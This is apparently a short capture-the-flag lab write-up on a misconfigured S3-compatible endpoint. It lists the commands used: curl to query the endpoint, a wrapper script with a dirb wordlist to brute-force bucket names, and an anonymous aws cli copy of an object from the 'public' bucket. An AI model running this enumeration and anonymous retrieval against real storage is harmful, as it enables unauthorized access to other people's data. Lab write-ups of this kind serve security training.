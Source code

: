 The bucket policy on 'public' bucket allows an anonymous user to read all objects stored in the bucket.

**Objective:**  Interact with the bucket 'public' on the exposed S3 endpoint and retrieve the flag.

==================================================================

Send a request to s3 endpoint using the curl command
`curl http://192.33.236.3:9000 -s | xmllint --format -`

Write a wrapper script over cult to perform dictionary attack
![[Pasted image 20210726161542.png]]
`./find.sh 192.33.236.3:9000 /usr/share/dirb/wordlists/small.txt`

Retrieve the index object and view its content
`aws --endpoint http://192.33.236.3:9000 --no-sign-request s3 cp s3://public/index ./`

